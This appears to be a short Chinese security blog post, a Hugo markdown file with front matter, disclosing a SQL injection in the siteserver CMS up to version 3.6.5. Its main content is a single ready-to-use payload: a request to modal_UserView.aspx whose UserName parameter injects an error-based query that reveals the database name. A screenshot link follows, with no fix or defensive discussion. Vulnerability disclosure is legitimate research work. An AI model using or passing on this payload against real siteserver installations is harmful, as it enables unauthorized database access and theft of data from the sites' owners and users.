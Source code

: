 ```yaml
---
title: "siteserver SQL 注入"
date: 2018-03-10T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



影响范围 siteserver <= 3.6.5

<!--more-->

**Payload**

`/siteserver/userRole/modal_UserView.aspx?UserName=a' or[areaid]>db_name()--`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/07/1520423900.jpg)